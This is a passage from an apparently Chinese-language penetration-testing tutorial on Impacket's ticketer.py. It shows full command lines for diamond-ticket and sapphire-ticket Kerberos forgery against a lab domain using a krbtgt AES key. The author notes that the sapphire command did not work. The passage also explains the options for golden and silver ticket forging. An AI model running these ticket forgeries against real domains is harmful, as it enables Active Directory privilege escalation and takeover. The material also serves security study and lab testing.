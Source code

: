 ```plain
py -3 ticketer.py -request -domain test.com -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -user administrator -password 1qaz@WSX -aesKey 245a674a434726c081385a3e2b33b62397e9b5fd7d02a613212c7407b9f13b41 -user-id 1500 -groups 12,513,518,519,520 qqq
```

[![](assets/1702372846-b78301fc6ec071b4e3fdc9334b8f8fd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123722-afd66ad0-6bb1-1.png)

**蓝宝石票据伪造**

钻石票据是伪造的 PAC 特权，但是蓝宝石票据是将真实高权限用户的 PAC 替换到低权限的 TGT 中，从而成为目前最难检测的手法

不过该技术还是 impacket 的一个分支，正在等待合并。

注意，因脚本问题，未复现成功

```plain
py -3 ticketer_imper.py -request -domain test.com -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -user administrator -password 1qaz@WSX -aesKey 245a674a434726c081385a3e2b33b62397e9b5fd7d02a613212c7407b9f13b41 -impersonate administrator qqq
```

参考：

[https://github.com/SecureAuthCorp/impacket/pull/1411](https://github.com/SecureAuthCorp/impacket/pull/1411)

#### 常用选项

```plain
-spn SPN 银票用，一般都是某个服务器的 cifs 或 DC 的 ldap 服务，mssql 啥的也可以考虑
-request 要求请求 TGT，这个脚本里可以理解为钻石票据伪造。必须同时存在-user 和-password
-aesKey hex key 用来签名票据的 krbtgt 的 AES 加密的密码
-nthash NTHASH  用来签名票据的 krbtgt 的 NTLM 加密的密码
-keytab KEYTAB 请求文件内容中的多个银票据
-duration DURATION 修改票据的失效时间
-user-id USER_ID 指定伪造 PAC 的用户权限 ID，默认是 500 管理员
-groups GROUPS 指定伪造 PAC 的组权限 ID，默认是 513, 512, 520, 518, 519 这五个组
```

### raiseChild.py(无环境)

可使用密码认证、hash 认证、Kerberos 认证
